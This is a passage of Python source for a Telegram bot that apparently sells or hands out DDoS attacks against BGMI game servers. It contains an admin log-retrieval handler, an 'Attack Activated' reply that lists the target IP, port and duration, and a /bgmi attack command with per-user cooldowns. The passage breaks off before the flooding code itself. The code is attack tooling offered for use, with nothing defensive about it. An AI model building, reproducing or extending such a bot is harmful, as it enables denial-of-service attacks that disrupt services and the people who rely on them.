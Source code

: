@bot.message_handler(commands=['logs'])
def show_recent_logs(message):
    user_id = str(message.chat.id)
    if user_id in admin_id:
        if os.path.exists(LOG_FILE) and os.stat(LOG_FILE).st_size > 0:
            try:
                with open(LOG_FILE, "rb") as file:
                    bot.send_document(message.chat.id, file)
            except FileNotFoundError:
                response = "No data found."
                bot.reply_to(message, response)
        else:
            response = "No data found."
            bot.reply_to(message, response)
    else:
        response = "Only admin can run this command."
        bot.reply_to(message, response)

# Function to handle the reply when free users run the /bgmi command
def start_attack_reply(message, target, port, time):
    user_info = message.from_user
    username = user_info.username if user_info.username else user_info.first_name
    response = (
        f"Dear {username}, Attack Activated\n\n"
        f"🎯 Target: `{target}`\n"
        f"🔌 Port: `{port}`\n"
        f"⏳ Duration: `{time} seconds`\n"
        f"🎮 App: `BGMI`\n\n"
        f"🚀 Don't Close Attack is Processing...🚀\n"
        f"🌐 Monitoring The Target Performance."
    )
    
    keyboard = telebot.types.InlineKeyboardMarkup()
    keyboard.add(
        telebot.types.InlineKeyboardButton("SUPPORT", url="https://t.me/AVIHACKERYT")
    )
    
    bot.reply_to(message, response, parse_mode='Markdown', reply_markup=keyboard)


# Dictionary to store the last time each user ran the /bgmi command
bgmi_cooldown = {}

COOLDOWN_TIME =0

# Handler for /bgmi command
@bot.message_handler(commands=['bgmi'])
def handle_bgmi(message):
    user_id = str(message.chat.id)
    if user_id in allowed_user_ids:
        # Check if the user is in admin_id (admins have no cooldown)
        if user_id not in admin_id:
            # Check if the user has run the command before and is still within the cooldown period
            if user_id in bgmi_cooldown and (datetime.datetime.now() - bgmi_cooldown[user_id]).seconds < 300:
                response = "You Are On Cooldown. Please Wait 5min Before Running The /bgmi Command Again."